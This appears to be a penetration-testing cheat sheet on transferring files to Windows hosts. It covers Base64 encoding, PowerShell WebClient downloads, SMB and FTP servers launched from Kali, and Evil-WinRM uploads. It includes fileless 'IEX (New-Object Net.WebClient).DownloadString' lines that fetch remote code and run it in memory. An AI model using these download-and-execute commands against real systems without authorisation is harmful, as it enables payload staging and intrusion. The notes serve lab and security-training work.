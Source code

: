 ```yaml
---
description: Windows file transfer download techniques
layout:
  width: default
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# Windows File Download

## Powershell

### Powershell Base64 Encode/Decode

#### Encode

```bash
$ cat <FILE> | base64 -w 0; echo
```

#### Decode

{% code overflow="wrap" fullWidth="false" %}
```powershell
PS C:\htb> [IO.File]::WriteAllBytes("<SAVE PATH>", [Convert]::FromBase64String("<Base64 String>"))
```
{% endcode %}

### Powershell Web Downloads

|                                                                                                                          |                                                                                                                            |
| ------------------------------------------------------------------------------------------------------------------------ | -------------------------------------------------------------------------------------------------------------------------- |
| Method                                                                                                                   | Description                                                                                                                |
| [OpenRead](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openread?view=net-6.0)                       | Returns the data from a resource as a [Stream](https://docs.microsoft.com/en-us/dotnet/api/system.io.stream?view=net-6.0). |
| [OpenReadAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.openreadasync?view=net-6.0)             | Returns the data from a resource without blocking the calling thread.                                                      |
| [DownloadData](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddata?view=net-6.0)               | Downloads data from a resource and returns a Byte array.                                                                   |
| [DownloadDataAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloaddataasync?view=net-6.0)     | Downloads data from a resource and returns a Byte array without blocking the calling thread.                               |
| [DownloadFile](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0)               | Downloads data from a resource to a local file.                                                                            |
| [DownloadFileAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfileasync?view=net-6.0)     | Downloads data from a resource to a local file without blocking the calling thread.                                        |
| [DownloadString](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstring?view=net-6.0)           | Downloads a String from a resource and returns a String.                                                                   |
| [DownloadStringAsync](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadstringasync?view=net-6.0) | Downloads a String from a resource without blocking the calling thread.                                                    |

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('<REMOTE FILE>','LOCAL FILE>')
```
{% endcode %}

### Powershell Web Download - In Memory

{% code overflow="wrap" %}
```powershell
IEX (New-Object Net.WebClient).DownloadString('<FILE>')
```
{% endcode %}

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadString('<FILE>') | IEX
```
{% endcode %}

## SMB

### Starting SMB Server From Kali

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb
```

```bash
$ sudo impacket-smbserver share -smb2support /tmp/smb -user test -password test
```

### Copy File From SMB Server

```batch
net use n: \\<IP>\<Share> /user:<USER> <PASS>
```

```batch
C:\htb> copy \\<IP>\<SHARE>\<FILE>
```

## FTP

### Starting FTP Server From Kali

```bash
$ sudo python3 -m pyftpdlib --port 21
```

### Copy File From FTP Server

{% code overflow="wrap" %}
```powershell
PS C:\htb> (New-Object Net.WebClient).DownloadFile('ftp://<IP>/<FILE>', '<LOCAL FILE>')
```
{% endcode %}

## Evil-Winrm

```powershell
*Evil-WinRM* PS C:\> upload <REMOTE FILE> <LOCAL FILE>
```
